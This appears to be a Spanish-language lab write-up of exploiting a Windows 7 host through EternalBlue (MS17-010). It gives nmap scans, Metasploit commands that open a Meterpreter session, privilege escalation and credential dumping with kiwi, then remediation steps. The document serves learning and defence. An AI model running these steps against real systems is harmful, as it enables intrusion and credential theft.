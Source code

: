 # **Explotación de Máquina Windows via EternalBlue (MS17-010)**

![Dificultad: Fácil](https://img.shields.io/badge/Dificultad-Fácil-brightgreen) ![Servicio: SMB](https://img.shields.io/badge/Servicio-SMBv1-blue) ![CVE: MS17-010](https://img.shields.io/badge/CVE-MS17--010-critical)

## **Descripción Técnica**
Este reporte documenta la explotación de una máquina Windows vulnerable a través de:
1. Vulnerabilidad crítica en SMBv1 (EternalBlue)
2. Acceso no autenticado a recursos compartidos
3. Ejecución remota de código con privilegios de sistema

**Tiempo estimado**: 15-25 minutos  
**Nivel de complejidad**: Básico  
**Sistema operativo**: Windows 7/Server 2008 R2

## **Índice Analítico**
1. [Reconocimiento](#reconocimiento)
2. [Explotación](#explotación)
3. [Post-Explotación](#post-explotación)
4. [Lecciones Aprendidas](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -p- -sS -min-rate 5000 --open -Pn -n 10.0.2.9 -oN initial_scan
```
**Resultados clave**:
```
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1
```

### 2. Verificación de Vulnerabilidad
```bash
nmap -p445 --script smb-vuln-ms17-010 10.0.2.9 -oN vuln_scan
```
**Salida concluyente**:
```
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
```

## **Explotación**

### 3. Configuración de Metasploit
```bash
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.0.2.9
set LHOST 10.0.2.4
exploit
```
**Indicador de éxito**:
```
[*] Meterpreter session 1 opened
```

## **Post-Explotación**

### 4. Escalada de Privilegios
```meterpreter
getsystem
```
**Verificación**:
```
Current privilege level: SYSTEM
```

### 5. Extracción de Credenciales
```meterpreter
load kiwi
creds_all
```
**Ejemplo de salida**:
```
[+] Harvested credentials
Domain        User        Password
------        ----        --------
WORKGROUP     ADMIN       P@ssw0rd123
```

## **Conclusión**

### Matriz de Riesgos
| Vulnerabilidad | CVSS | Impacto |
|---------------|------|---------|
| MS17-010 | 9.3 | Crítico |
| SMBv1 Habilitado | 8.1 | Alto |
| Credenciales en texto claro | 7.8 | Alto |

### Recomendaciones de Seguridad
1. **Remediación inmediata**:
```powershell
# Deshabilitar SMBv1
Disable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```

2. **Hardening adicional**:
```powershell
# Habilitar SMB Signing
Set-SmbServerConfiguration -RequireSecuritySignature $true
```

> ⚠️ **Aviso Legal**: Este contenido es solo para pruebas de penetración autorizadas. El uso no autorizado es ilegal.

---

**Stack Tecnológico**:
- `nmap` 7.80+
- `metasploit-framework` 6.0+
- `Windows 7` SP1

**Referencias Técnicas**:
1. [Microsoft Security Bulletin MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
2. [CVE-2017-0143 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143)
3. [NSA EternalBlue Advisory](https://nsacyber.github.io/publications.html)
